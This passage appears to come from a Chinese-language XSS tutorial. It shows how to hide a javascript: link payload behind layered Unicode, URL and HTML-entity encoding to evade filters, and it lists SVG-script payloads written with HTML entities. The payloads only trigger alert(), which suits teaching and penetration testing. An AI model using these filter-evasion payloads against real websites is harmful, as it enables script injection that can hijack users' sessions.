 **也可以利用解码顺序进行混合编码，如下示例：**

- `<a href=javascript:alert("xss")>test</a>`

首先对“alert”进行JavaScript Unicode编码：

```html
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
```

然后再对 `\u0061\u006c\u0065\u0072\u0074` 进行URL编码：

```html
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34("xss")>test</a>
```

最后对标签中的 `javascript:%5c%75...%37%34("xss")` 整体进行HTML编码即可：

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```



### SVG：XSS的一个黑魔法

`<svg>`标签+html实体编码

```html
<svg><script>&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;</script>
<svg><script>alert&#40;1)</script>
<svg><script>alert&#40;1&#41;</script>
```







